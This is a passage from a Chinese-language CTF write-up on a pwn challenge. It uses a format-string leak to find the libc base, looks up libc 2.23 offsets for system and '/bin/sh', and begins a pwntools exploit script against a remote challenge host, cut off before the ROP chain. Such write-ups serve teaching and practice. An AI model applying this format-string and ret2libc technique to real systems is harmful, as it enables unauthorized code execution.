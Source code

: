 ![图 2](0.png)

而 `__libc_start_main` 和我们的输入在栈上相差 `0x28`，换算成偏移量就是 `0x28 / 8 = 0x05`，此外还需要考虑 64 位下的六个传参寄存器，因此总偏移为 `0xb`。我们输入 `%11$p` 即可泄露 `__libc_start_main` 地址 `0x7ffff7a2d830`。

接下来就交给 `libc_database` 工具了：

```shell
$ ./find __libc_start_main_ret 830
ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64)
archive-glibc (id libc6_2.23-0ubuntu3_amd64)
$ ./dump libc6_2.23-0ubuntu10_amd64
offset___libc_start_main_ret = 0x20830
offset_system = 0x0000000000045390
offset_dup2 = 0x00000000000f7970
offset_read = 0x00000000000f7250
offset_write = 0x00000000000f72b0
offset_str_bin_sh = 0x18cd57
```

随后我们用和 pwn4 相同的方法找到 `pop rdi; ret` 的 `gadget` 地址 `0x400933` 就可以用类似的办法构造 payload 了。需要注意的是，程序中还限制了第二次输入的字符串必须包含 `鸽子` 和 `真香` 两个子串。

最后的 payload：

```python
# coding:utf-8
from pwn import *

context(arch='amd64', os='linux', log_level='DEBUG')
p = remote('114.116.54.89', 10005)
#p=process('./human')

p.recvline()
p.recvline()
p.sendline('%11$p')

libc_leak = int(p.recvuntil('\n')[2:-1], 16)
offset___libc_start_main_ret = 0x20830
offset_system = 0x0000000000045390
offset_str_bin_sh = 0x18cd57

```